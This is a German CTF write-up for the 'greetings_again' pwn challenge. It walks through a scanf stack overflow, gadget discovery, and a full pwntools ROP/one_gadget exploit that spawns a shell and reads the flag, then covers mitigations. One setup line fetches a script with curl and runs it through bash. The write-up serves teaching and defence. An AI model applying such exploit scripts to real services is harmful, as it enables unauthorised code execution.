

# pwn-greetings_again

## Lösungsvorschlag

Es werden zwei Dateien zur Verfügung gestellt; die Datei `greetings_again` sowie die Datei `libc-2.31.so.zip`.

Die Datei `greetings_again` ist eine 64-Bit ELF-Datei, welche mit dem Befehl `file` analysiert werden kann.

```bash
┌──(kali㉿kali)-[~/pwn-greetings_again/challenge]
└─$ file greetings_again
greetings_again: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ffad727892cafe1e7ee0d9db8372cc16c5bb6dbc, for GNU/Linux 3.2.0, with debug_info, not stripped
```

Checksec ergibt, dass es keinen Schutz gegen stackbasierte Bufferoverflows gibt, jedoch `NX` aktiv ist.
```bash
$ checksec --file=greetings_again  
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   44 Symbols        No    0               1               greetings_again
```

Bei der ersten Ausführung der Datei, wird folgendes ausgegeben:

```bash
$ ./greetings_again
Debug-Ausgaben:
scanf: 0x7fcccf5b16d0
printf: 0x7fcccf5b0330
greetings: 0x55732fc941e2
Wer soll diesmal gegruesst werden?
```

Bei einer zweiten Ausführung folgendes:
```bash
$ ./greetings_again
Debug-Ausgaben:
scanf: 0x7f29f727e0e0
printf: 0x7f29f727ccf0
greetings: 0x562770e801e2
Wer soll diesmal gegruesst werden?
```

Die Adressen der Funktionen unterscheiden sich je Ausführung. Das heißt [ASLR](https://de.wikipedia.org/wiki/Address_Space_Layout_Randomization) ist aktiv. Zusammen mit den obigen Erkenntnissen bietet es sich an den Bufferoverflow für eine [ROP](https://de.wikipedia.org/wiki/Return_Oriented_Programming)-Attacke zu nutzen.

Um einen Überblick über den Aufbau des Programms zu erhalten, werden die Funktionen `main`, `greetings` und `scanf` mittels [Ghidra](https://ghidra-sre.org/) analysiert.

```c
undefined8 main(void)

{
  debug();
  greetings();
  greetings();
  puts("Gruessen beendet.");
  return 0;
}
```

Die `debug` Funktion gibt die im Output vorhandenen Adressen aus.

```c
void debug(void)

{
  puts("Debug-Ausgaben:");
  printf("scanf: %p\n", __isoc99_scanf);
  printf("printf: %p\n", printf);
  printf("greetings: %p\n", greetings);
  return;
}
```

In der `greetings` Funktion ist zu sehen, dass nicht die scanf, sondern die `\_\_isoc99_scanf` Methode genutzt wird.

```c
void greetings(void)

{
  char local_d8 [208];

  puts("Wer soll diesmal gegruesst werden?");
  __isoc99_scanf(&DAT_00102073,local_d8);
  printf("Schoene Gruesse an ");
  printf(local_d8);
  puts("!");
  return;
}
```

Es kann festgestellt werden, dass das Char-Array `local_d8` mit der Länge 208 Bytes erstellt und anschließend mit der Funktion `scanf` gefüllt wird. Der User-Input wird jedoch nicht auf die Länge des Arrays begrenzt, sodass ein Buffer Overflow erzeugt werden kann.

### Exploitation

Es wird geprüft, ob ein Buffer Overflow erzeugt werden kann:

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 -c "print('A'*208)" | ./greetings_again
Debug-Ausgaben:
scanf: 0x7f31f6dbb6d0
printf: 0x7f31f6dba330
greetings: 0x55d9ceb151e2
Wer soll diesmal gegruesst werden?
Schoene Gruesse an AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Wer soll diesmal gegruesst werden?
Schoene Gruesse an AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Gruessen beendet.

┌──(kali㉿kali)-[~/Desktop]
└─$ python3 -c "print('A'*220)" | ./greetings_again
Debug-Ausgaben:
scanf: 0x7f2f75d8e6d0
printf: 0x7f2f75d8d330
greetings: 0x55ffc38e81e2
Wer soll diesmal gegruesst werden?
Schoene Gruesse an AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
zsh: done                python3 -c "print('A'*220)" |
zsh: segmentation fault  ./greetings_again

┌──(kali㉿kali)-[~/Desktop]
└─$ python3 -c "print('A'*215)" | ./greetings_again                                 139 ⨯
Debug-Ausgaben:
scanf: 0x7ff56f9ad6d0
printf: 0x7ff56f9ac330
greetings: 0x559cb105b1e2
Wer soll diesmal gegruesst werden?
Schoene Gruesse an AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Wer soll diesmal gegruesst werden?
Schoene Gruesse an AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Gruessen beendet.

┌──(kali㉿kali)-[~/Desktop]
└─$ python3 -c "print('A'*216)" | ./greetings_again
Debug-Ausgaben:
scanf: 0x7f1e195616d0
printf: 0x7f1e19560330
greetings: 0x5627a12a61e2
Wer soll diesmal gegruesst werden?
Schoene Gruesse an AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
zsh: done                python3 -c "print('A'*216)" |
zsh: segmentation fault  ./greetings_again
```

Nun ist bekannt, dass 216 Bytes einen Buffer Overflow auslösen. Diese Information sollte notiert werden.

Da die bereitgestellte `libc-2.31.so` nicht mehr aktuell sein könnte, muss die aktuelle Version aus dem Docker Container kopiert werden. Dies ist erforderlich, da sich das Docker Image sowie der Offset der Funktionen eventuell durch ein Update geändert haben könnte. (Dies war in den Qualifiers nicht der Fall, da  die Datei aus dem Docker Image mit ausgeliefert wurde).
Die korrekte Library kann man z. B. mittels Debugging ermitteln.\

Interactive Bash für Container starten:
```bash
docker exec -it <container> /bin/bash
```

`gef` für `gdb` installieren:
```bash
apt-get install gdb -y
bash -c "$(curl -fsSL https://gef.blah.cat/sh)"
gdb /greetings_again
```

Anschließend wird das Programm in `gdb` gestartet, indem der Befehl `run` eingegeben wird.
Danach muss mittels CTRL+C (^C) das Programm gestoppt werden.
Nun kann `vmmap` ausgeführt werden um Abhängigkeiten einzusehen. Folgend ist die genutzte libc und deren Pfad zu sehen:



Der Container wird nun verlassen um die Datei zu kopieren.
In diesem Beispiel ist der Containername `afe802d94945f936d807993c78312bef0bf9f7ce0bc8fbe6952ed06f7ee28aaa`; die ersten Zeichen reichen jedoch zur Identifikation des Containers.

```bash
docker cp afe802d94945:/lib/x86_64-linux-gnu/libc-2.31.so DOCKER_libc-2.31.so
```

Nun wird mittels [one_gadget](https://github.com/david942j/one_gadget) geprüft, ob ein geeigneter `execute("/bin/sh")` Aufruf in der libc vorhanden ist:


```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ one_gadget DOCKER_libc-2.31.so
0xc961a execve("/bin/sh", r12, r13)
constraints:
  [r12] == NULL || r12 == NULL
  [r13] == NULL || r13 == NULL

0xc961d execve("/bin/sh", r12, rdx)
constraints:
  [r12] == NULL || r12 == NULL
  [rdx] == NULL || rdx == NULL

0xc9620 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL

```

Der erste Offset sowie die Bedingungen sollten notiert werden.
Die Bedingungen des ersten Offsets (`0xc961a`) sind, dass `r12` und `r13` NULL sind.

Es muss eine ROP Chain aus der `greetings_again` Binary gefunden werden, welche diese Voraussetzungen deckt. Hierfür wurde [ROPGadget](https://github.com/JonathanSalwan/ROPgadget) genutzt.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ROPgadget --binary greetings_again
Gadgets information
============================================================
0x000000000000113b : add byte ptr [rax], 0 ; add byte ptr [rax], al ; endbr64 ; jmp 0x10c0
0x00000000000010b3 : add byte ptr [rax], 0 ; add byte ptr [rax], al ; ret
0x000000000000113c : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; jmp 0x10c0
0x0000000000001037 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x1020
0x000000000000116c : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
0x00000000000010b4 : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x0000000000001130 : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax] ; ret
0x000000000000113e : add byte ptr [rax], al ; endbr64 ; jmp 0x10c0
0x0000000000001039 : add byte ptr [rax], al ; jmp 0x1020
0x000000000000116e : add byte ptr [rax], al ; pop rbp ; ret
0x0000000000001034 : add byte ptr [rax], al ; push 0 ; jmp 0x1020
0x00000000000010b6 : add byte ptr [rax], al ; ret
0x0000000000001009 : add byte ptr [rax], al ; test rax, rax ; je 0x1012 ; call rax
0x00000000000010a8 : add byte ptr [rax], al ; test rax, rax ; je 0x10b8 ; jmp rax
0x00000000000010e9 : add byte ptr [rax], al ; test rax, rax ; je 0x10f8 ; jmp rax
0x00000000000010f5 : add byte ptr [rax], r8b ; ret
0x0000000000001131 : add byte ptr [rcx], al ; pop rbp ; ret
0x000000000000112f : add byte ptr cs:[rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax] ; ret
0x00000000000010e8 : add byte ptr cs:[rax], al ; test rax, rax ; je 0x10f8 ; jmp rax
0x0000000000001132 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax] ; ret
0x0000000000001013 : add esp, 8 ; ret
0x0000000000001012 : add rsp, 8 ; ret
0x0000000000001250 : call qword ptr [rax + 0x2e66c3c9]
0x00000000000011de : call qword ptr [rax + 0x4855c35d]
0x0000000000001148 : call qword ptr [rbp + 0x48]
0x0000000000001010 : call rax
0x0000000000001143 : cli ; jmp 0x10c0
0x0000000000001140 : endbr64 ; jmp 0x10c0
0x00000000000012a4 : fisttp word ptr [rax - 0x7d] ; ret
0x00000000000010e7 : in eax, dx ; add byte ptr cs:[rax], al ; test rax, rax ; je 0x10f8 ; jmp rax
0x000000000000100e : je 0x1012 ; call rax
0x00000000000010ad : je 0x10b8 ; jmp rax
0x00000000000010ee : je 0x10f8 ; jmp rax
0x000000000000103b : jmp 0x1020
0x0000000000001144 : jmp 0x10c0
0x00000000000010af : jmp rax
0x0000000000001252 : leave ; ret
0x00000000000010f1 : loopne 0x1159 ; nop dword ptr [rax + rax] ; ret
0x000000000000112c : mov byte ptr [rip + 0x2ee5], 1 ; pop rbp ; ret
0x000000000000116b : mov eax, 0 ; pop rbp ; ret
0x0000000000001007 : mov ebp, 0x4800002f ; test eax, eax ; je 0x1012 ; call rax
0x0000000000001251 : nop ; leave ; ret
0x00000000000011df : nop ; pop rbp ; ret
0x00000000000010f3 : nop dword ptr [rax + rax] ; ret
0x00000000000010b1 : nop dword ptr [rax] ; ret
0x00000000000010f2 : nop word ptr [rax + rax] ; ret
0x00000000000010ef : or bh, bh ; loopne 0x1159 ; nop dword ptr [rax + rax] ; ret
0x00000000000012b4 : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000000012b6 : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000000012b8 : pop r14 ; pop r15 ; ret
0x00000000000012ba : pop r15 ; ret
0x00000000000012b3 : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000000012b7 : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000001133 : pop rbp ; ret
0x00000000000012bb : pop rdi ; ret
0x00000000000012b9 : pop rsi ; pop r15 ; ret
0x00000000000012b5 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000001036 : push 0 ; jmp 0x1020
0x0000000000001016 : ret
0x0000000000001111 : retf 0x2e
0x0000000000001022 : retf 0x2f
0x000000000000100d : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x00000000000012c5 : sub esp, 8 ; add rsp, 8 ; ret
0x00000000000012c4 : sub rsp, 8 ; add rsp, 8 ; ret
0x000000000000100c : test eax, eax ; je 0x1012 ; call rax
0x00000000000010ab : test eax, eax ; je 0x10b8 ; jmp rax
0x00000000000010ec : test eax, eax ; je 0x10f8 ; jmp rax
0x000000000000100b : test rax, rax ; je 0x1012 ; call rax
0x00000000000010aa : test rax, rax ; je 0x10b8 ; jmp rax
0x00000000000010eb : test rax, rax ; je 0x10f8 ; jmp rax

Unique gadgets found: 70
```

Das Gadget mit dem Offset `0x00000000000012b4` erfüllt die Bedingungen und kann für uns genutzt werden.

Nun muss der Offset einer bekannten Funktion in der libc gefunden werden, um so später zum Basepoint der libc zu gelangen.
Eine Funktion hierfür ist beispielsweise `printf`.

```bash
$ objdump -T DOCKER_libc-2.31.so | grep " printf"
0000000000053cf0 g    DF .text  00000000000000c8  GLIBC_2.2.5 printf
0000000000053c10 g    DF .text  000000000000001c  GLIBC_2.2.5 printf_size_info
0000000000053230 g    DF .text  00000000000009db  GLIBC_2.2.5 printf_size
```

Der Offset `0000000000053cf0` sollte erneut notiert werden.

Zusätzlich wird der Offset der Funktion `greetings` benötigt, um die ROP Chain zu starten.

```bash
$ objdump -t greetings_again | grep greetings
greetings_again:     file format elf64-x86-64
0000000000000000 l    df *ABS*  0000000000000000              greetings_again.c
00000000000011e2 g     F .text  0000000000000072              greetings
```

Der Offset `00000000000011e2` sollte ebenfalls notiert werden.

Die notierten Offsets werden abschließend in das Script eingefügt und ausgeführt.
Die Offsets werden an zwei Stellen benötigt. Zum einen bei `rop1` und zum anderen bei `rop2`.

rop1 wird verwendet um die Bedingungen für `rop2` (den tatsächlichen Exploit) zu erfüllen.

```python
#!/usr/bin/env_python
from pwn import *
from requests import *
import sys
import os
from binascii import hexlify

context.arch = 'amd64'

def get_addresses():
    # lib = ELF("./libc.so.6")
    #e = ELF("./greetings_again")
    HOST = "localhost"
    PORT = 4004
    p = remote(HOST, PORT)
    # p = process("./greetings_again")

    output = p.recvuntil("werden?\n")
    output = str(output).split(":")

    addresses = (output[2].split("\\n")[0], output[3].split(
        "\\n")[0], output[4].split("\\n")[0])
    print(addresses)

    address_greetings = addresses[2]
    address_greetings = int(address_greetings, 0)

    # ROPchain: 0x00000000000012b4 : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
    # rop1 wird zum vorbereiten des stack für die system() funktion genutzt
    # rop1 = address_greegins - offset address greetings (objdump) + ROP chain (ROPgadget)
    rop1 = address_greetings - 0x00000000000011e2 + 0x00000000000012b4
    print("rop1 0x%x" % rop1)
    address_printf = addresses[1]
    address_printf = int(address_printf, 0)

    # rop2 wird zum ausführen der system() payload genutzt
    # rop2 = address_printf - printf(OFFSET) + gadget (one_gadget)
    rop2 = address_printf - 0x0000000000053cf0 + 0xc961a
    print("rop2 0x%x" % rop2)

    payload = [
        b"A"*216,
        p64(rop1),
        p64(0x0),
        p64(0x0),
        p64(0x0),
        p64(0x0),
        p64(rop2)
    ]

    log.info("Joining payload...")
    payload = b"".join(payload)

    # print(payload)
    # gdb.attach(p)

    log.info("Sending payload...")
    p.sendline(payload)

    log.info("Changing to interactive mode..")
    p.interactive()


if __name__ == "__main__":
    get_addresses()
```

Das Ausführen des Scripts gibt eine Shell zurück, über die die flag.txt ausgelesen werden kann. Der Output sollte wie folgt aussehen:

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 solve.py
[+] Opening connection to localhost on port 4004: Done
/home/kali/Desktop/pwn-greetings_again/solutions/solve.py:19: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  output = p.recvuntil("werden?\n")
(' 0x7f476d3a80e0', ' 0x7f476d3a6cf0', ' 0x55b35e5101e2')
rop1 0x55b35e5102b4
rop2 0x7f476d41c61a
[*] Joining payload...
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb4\x02Q^\xb3U\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x1a\xc6AmG\x7f\x00\x00'
[*] Sending payload...
[*] Changing to interactive mode..
[*] Switching to interactive mode
Schoene Gruesse an AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb4Q^\xb3U!
$ ls
flag.txt
greetings_again
setup_socket.sh
$ cat flag.txt
DBH{d15b4ee3-963f-461c-9437-2b333839f5cd}$
```

### Grundproblem

Exploitation via ROP / Return2libc.

## Alternativer Lösungsweg

Ein alternativer Lösungsweg wäre eine Format-String Schwachstelle. Diese wird an dieser Stelle jedoch nicht weiter behandelt.

## Beseitigung der Schwachstelle

Der Bufferoverflow kann mit verschiedene Möglichkeiten beseitigt werden.

`Stack Canaries` sind zufällige Werte, die kurz vor die `Return Adresse` zur Laufzeit geschrieben werden. Sollten die Werte während der Laufzeit des Programms geändert werden, so ist dies ein Indiz für den Versuch eines stackbasierten Bufferoverflows und die Anwendung kann entsprechend reagieren (z. B. durch Beendigung).
Stack Canaries können während der Kompilierung bei `gcc` durch die Flag `-fstack-protector-all` aktiviert werden.
Eine Voraussetzung, dass dies funktioniert, ist, dass der Stack zur Laufzeit nicht geleakt wird.

Auch kann man sicherer Funktionen nutzen, die weniger gegen Bufferoverflows anfällig sind.

Zusätzlich sollten die Adressen von Funktionen nicht an den Nutzer gesendet werden.


## Flag
```
DBH{d15b4ee3-963f-461c-9437-2b333839f5cd}
```
